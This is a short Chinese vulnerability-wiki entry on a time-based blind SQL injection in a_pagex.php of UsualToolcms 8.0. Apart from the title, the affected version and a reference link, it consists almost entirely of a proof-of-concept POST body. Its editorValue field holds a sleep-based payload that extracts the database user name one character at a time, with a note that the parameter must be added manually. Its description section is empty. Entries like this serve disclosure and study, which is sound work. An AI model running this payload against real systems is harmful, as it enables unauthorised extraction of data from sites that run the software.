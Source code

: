 UsualToolcms 8.0 a\_pagex.php盲注
=================================

一、漏洞简介
------------

二、漏洞影响
------------

UsualToolcms 8.0

三、复现过程
------------

### poc

![1.png](/Users/aresx/Documents/VulWiki/.resource/UsualToolcms8.0a_pagex.php盲注/media/rId25.png)

    pagename=test&istop=0&isbottom=0&title=test&webkey=test&description=test&editorValue=1'and if(ascii(substr(user(),1,1))=100,sleep(2),1)#&id=2&submit=%E7%BC%96%E8%BE%91

editorValue参数需要手动添加

![2.png](/Users/aresx/Documents/VulWiki/.resource/UsualToolcms8.0a_pagex.php盲注/media/rId26.png)

参考链接
--------

> https://xz.aliyun.com/t/8100
